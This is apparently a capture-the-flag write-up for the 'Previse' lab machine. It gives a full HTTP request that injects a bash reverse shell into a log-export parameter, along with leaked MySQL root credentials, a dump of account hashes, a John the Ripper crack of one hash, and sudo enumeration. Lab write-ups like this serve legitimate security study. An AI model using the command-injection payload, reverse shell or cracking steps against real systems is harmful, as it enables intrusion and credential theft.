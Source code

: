 
## Foothold

The following payload gives a reverse shell

```
POST /logs.php HTTP/1.1
Host: 10.10.11.104
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=0atht1ihcn5m48rau9c6h0ttt8
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

delim=%3bbash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.25/1337+0>%261"
```

## Privilege Escalation

You can authenticate to the mysql server with `root:mySQL_p@ssw0rd!:)`. In the DB `previse` there is a table `accounts`:

```s
mysql> select * from accounts;
+----+------------+------------------------------------+---------------------+
| id | username   | password                           | created_at          |
+----+------------+------------------------------------+---------------------+
|  1 | m4lwhere   | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | 0zymandias | $1$🧂llol$79cV9c1FNnnr7LcfPFlqQ0 | 2023-09-23 02:05:49 |
+----+------------+------------------------------------+---------------------+
2 rows in set (0.00 sec)

```

Extracting the password and running jtr:


```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long m4lwhere-hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt-long, crypt(3) $1$ (and variants) [MD5 32/64])
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovecody112235! (?)     
1g 0:00:01:06 DONE (2023-09-23 08:49) 0.01498g/s 111076p/s 111076c/s 111076C/s ilovecolynn..ilovecody..
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Being authenticated as m4lwhere, we are able to see what we are aboe to run as root:
```bash
$ sudo -l
[sudo] password for m4lwhere: 
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
``` 
